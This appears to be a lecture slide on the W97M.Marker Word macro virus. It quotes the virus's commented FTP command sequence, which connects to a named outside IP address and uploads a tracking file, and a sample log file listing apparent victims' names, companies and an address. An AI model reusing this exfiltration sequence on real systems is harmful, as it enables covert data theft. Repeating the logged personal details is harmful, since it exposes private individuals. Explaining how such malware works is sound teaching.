

# W97M.Marker Virus (MS Word)
Marker is a Word macro virus that keeps track of who it infects and transmits this info to hacker site.
Example Code:
o 209.201.88.110
;opens an ftp connection to hacker's ftp site
user anonymous
;logs user in as anonymous
pass itsme@
;puts in password
cd incoming
;changes to subdirectory called incoming on hacker's site
ascii;
puts file transfer in ascii text transmission modeput hsfedrt.sys
;uploads tracking information to ftp site, where hsfedrt.sys can be any
;randomly generated name.
quit
;ends ftp session
Example Log File:
'Logfile
'09:08:36 - Saturday, 28, Nov 1998
'Richard D. Collier, III
'RichDesigns.net
‘
'02:50:31 PM - Saturday, 28 Nov 1998
'Elizabeth Rose
‘
'Straight-A Students, Inc.
‘
'12:49:03 PM - Saturday, 9 Jan 1999'Lillian Hanson
'Genius Tutoring
’Two Embargo, Suite 3800
'Richmond, CA 94111
'